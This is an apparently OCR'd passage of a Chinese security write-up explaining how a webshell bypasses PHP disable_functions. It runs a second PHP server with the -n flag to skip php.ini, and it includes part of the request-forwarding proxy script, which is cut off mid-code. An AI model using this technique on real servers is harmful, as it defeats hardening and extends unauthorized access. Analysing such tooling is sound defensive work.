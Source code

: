 这 so 执行了`php -n -S 127.0.0.1:61989 -t /var/www/html`

**\-S 127.0.0.1:\*\***61111\*\* : 新 web 服务监听地址

**\-t /var/www/html/** : 新 http 服务的 Web 根目录，需要指定一个有 webshell 的目录

**\-n** : 表示不使用 php.ini，是这里 bypass disable\_functions 的核心所在

我们再看看代理脚本内容

```plain
function get_client_header(){
    $headers=array();
    foreach($_SERVER as $k=>$v){
        if(strpos($k,'HTTP_')===0){
            $k=strtolower(preg_replace('/^HTTP/', '', $k));
            $k=preg_replace_callback('/_\w/','header_callback',$k);
            $k=preg_replace('/^_/','',$k);
            $k=str_replace('_','-',$k);
            if($k=='Host') continue;
            $headers[]="$k:$v";
        }
    }
    return $headers;
}
function header_callback($str){
    return strtoupper($str[0]);
}
function parseHeader($sResponse){
    list($headerstr,$sResponse)=explode("

",$sResponse, 2);
    $ret=array($headerstr,$sResponse);
    if(preg_match('/^HTTP/1.1 d{3}/', $sResponse)){
        $ret=parseHeader($sResponse);
    }
    return $ret;
}

set_time_limit(120);
$headers=get_client_header();
$host = "127.0.0.1";
$port = 61989;
$errno = '';
$errstr = '';
$timeout = 30;
$url = "/index.php";

if (!empty($_SERVER['QUERY_STRING'])){
    $url .= "?".$_SERVER['QUERY_STRING'];
};

$fp = fsockopen($host, $port, $errno, $errstr, $timeout);
if(!$fp){
    return false;
}

$method = "GET";
$post_data = "";
if($_SERVER['REQUEST_METHOD']=='POST') {
    $method = "POST";
    $post_data = file_get_contents('php://input');
}

$out = $method." ".$url." HTTP/1.1\r\n";
$out .= "Host: ".$host.":".$port."\r\n";
```